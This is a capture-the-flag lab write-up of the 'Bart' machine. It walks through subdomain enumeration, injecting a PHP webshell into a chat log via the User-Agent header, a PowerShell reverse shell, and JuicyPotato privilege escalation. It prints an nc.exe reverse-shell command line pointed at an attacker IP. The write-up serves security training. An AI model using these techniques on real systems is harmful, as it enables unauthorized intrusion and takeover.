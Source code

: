 # Bart

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (19) (6).png" alt=""><figcaption></figcaption></figure>

Only one port was available. We had to add `forum.bart.htb` to our `/etc/hosts` file to access the website.

### Web Enum

The website was a standard company page:

<figure><img src="../../../.gitbook/assets/image (5) (4).png" alt=""><figcaption></figcaption></figure>

I checked the page source, and found a unique bit here. Seems like there was a user that was not shown for some reason.

<figure><img src="../../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

harvey is the user we probably need to access.&#x20;

We can fuzz subdomains using the `bart.htb` domain to find more places to visit.

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

### monitor.bart.htb

We can visit this to see that it's running PHP Server Monitor v3.2.1.

<figure><img src="../../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

`harvey:potter` works as credentials to let us log in. There, we would view an internal chat instance.&#x20;

<figure><img src="../../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

I looked around and found the settings for this internal chat service, and found another subdomain.

<figure><img src="../../../.gitbook/assets/image (71).png" alt=""><figcaption></figcaption></figure>

We can head to that domain to find another application running.

### Simple Chat Log Poisoning

There's a login page within the new page. Our previous credentials of `harvey:potter` do not work here.

<figure><img src="../../../.gitbook/assets/image (21) (5).png" alt=""><figcaption></figcaption></figure>

However, what's interesting was the URL of the website, at `http://internal-01.bart.htb/simple_chat/login_form.php`. Googling around, we can find the exact simple\_chat PHP application being used as it is a open-source project.&#x20;

{% embed url="https://github.com/magkopian/php-ajax-simple-chat'" %}

Within the source code, we can view the register.php to see how to register a new user.

<figure><img src="../../../.gitbook/assets/image (23) (5).png" alt=""><figcaption></figcaption></figure>

All we need to do is sent a POST request with the `uname` and `passwd` parameters to register.

<figure><img src="../../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

Afterwards, I logged into the server.

<figure><img src="../../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

Within this page, there's the ability to view the Log files, and when we do, we would first get a pop-up similar to xss with 1, and have this GET request be sent to the machine.

<figure><img src="../../../.gitbook/assets/image (14) (3).png" alt=""><figcaption></figcaption></figure>

When viewing this log, I noticed that the User-Agent was copied from my machine.

<figure><img src="../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

I played around with this and altered my `User-Agent` field to something else, and it was still copied over.

<figure><img src="../../../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

With this, because it is a PHP page, I attempted to write a webshell within the HTTP header and also change the page to a PHP page by altering the `filename` parameter.

<figure><img src="../../../.gitbook/assets/image (17) (6).png" alt=""><figcaption></figcaption></figure>

With this, we can easily gain a reverse shell into the machine using Invoke-PowerShellTcp, as other shells don't work out well.

<figure><img src="../../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### JuicyPotato

When checking our privileges, we notice we have the SeImpersonatePrivilege enabled.

<figure><img src="../../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

Checking `systeminfo`, we also find that a vulnerable version of Windows was running with no hotfixes.

<figure><img src="../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

We can run the JuicyPotato exploit to get a reverse shell as root. First, we need to create a .bat file that would be run. I used nc.exe to run my shell:

```
C:\Temp\nc.exe -e cmd.exe <IP> <PORT>
```

Then, we can get JuicyPotato on the machine and run it with a CLSID. We can find one from this page:

{% embed url="http://ohpe.it/juicy-potato/CLSID/Windows_10_Pro/" %}

<figure><img src="../../../.gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>

Afterwards, we would catch a shell as the administrator.

<figure><img src="../../../.gitbook/assets/image (9) (3).png" alt=""><figcaption></figcaption></figure>
